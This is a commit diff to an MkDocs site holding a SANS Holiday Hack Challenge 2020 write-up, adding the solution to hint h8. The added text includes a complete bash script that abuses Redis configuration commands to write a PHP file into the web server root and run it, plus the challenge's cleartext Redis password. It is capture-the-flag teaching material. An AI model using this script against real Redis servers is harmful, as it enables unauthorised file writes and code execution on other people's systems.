

Before and after one commit to crahan/HolidayHackChallenge2020, an MkDocs documentation site: the page built from docs/hints/h8.md, in a window 1280 px wide and 1400 px high, scrolled down 608 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded.

Commit message:
Hint h8 write-up complete

````diff
--- a/docs/hints/h8.md
+++ b/docs/hints/h8.md
@@ -40,7 +40,55 @@
     maintenance page to view the source code for the index page?
     ```
 
-Solution here...
+The solution is based on the Webshell example in the [Redis pentesting guide](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) provided by Holly Evergreen. We need to trick Redis into creating a PHP script in the web server root folder that reads and writes the contents of `index.php` to a non-PHP file (so we can retrieve it without the contents being parsed by the PHP interpreter).
+
+We could use the suggested `curl` approach, but then we'd need to URL-encode any special characters so they are properly parsed by the `maintenance.php` script before being forwarded to the `redis-cli` command line tool. Since `/etc/redis/redis.conf` contains the password in cleartext anyway (i.e., *R3disp@ss*), we can use `redis-cli` directly instead.
+
+!!! note "Redis DB compression"
+    Ensure that `rdbcompression` is disabled in `/etc/redis/redis.conf`. Saving the Redis database to disk with compression enabled will also compress the PHP code stored inside the DB, making the code unreadable for the PHP interpreter and preventing the PHP instructions from being executed.
+
+To automate the process create a [`redis_rce.sh`](../tools/hints/h8/redis_rce.sh) script containing the following commands.
+
+```bash linenums="1"
+#!/usr/bin/env bash
+
+# Redis password from /etc/redis/redis.conf
+RP='R3disp@ss'
+
+# PHP code to copy /var/www/html/index.php to /var/www/html/f.txt
+PHP="<?php file_put_contents('f.txt', file_get_contents('index.php')); ?>"
+
+echo -n "Delete all keys from all databases: "
+redis-cli --raw -a $RP flushall 2>/dev/null
+
+echo -n "Disable Redis DB compression to leave PHP code as-is: "
+redis-cli --raw -a $RP config set rdbcompression no 2>/dev/null
+
+echo -n "Set output folder to /var/www/html/ web server root: "
+redis-cli --raw -a $RP config set dir /var/www/html 2>/dev/null
+
+echo -n "Set the DB filename to redis_rce.php: "
+redis-cli --raw -a $RP config set dbfilename redis_rce.php 2>/dev/null
+
+echo -n "Create 'rce' key containing PHP code: "
+redis-cli --raw -a $RP set rce "$PHP" 2>/dev/null
+
+echo -n "Save Redis DB to /var/www/html/redis_rce.php: "
+redis-cli --raw -a $RP save 2>/dev/null
+
+echo "Execute 'redis_rce.php' via GET request."
+curl http://localhost/redis_rce.php 2>/dev/null
+
+echo "Download http://localhost/f.txt"
+curl http://localhost/f.txt --output f.txt 2>/dev/null
+
+echo "Display f.txt"
+cat -A f.txt
+```
+
+Execute the `redis_rce.sh` script on the host to find the bug. :scream:
+
+![Bug found](../img/hints/h8/bug_found.png)
 
 
 ## Response
````
Also changed, not shown: docs/hints/h5b.md (+6 -6 lines), docs/img/hints/h8/bug_found.png (added), 1 other file.
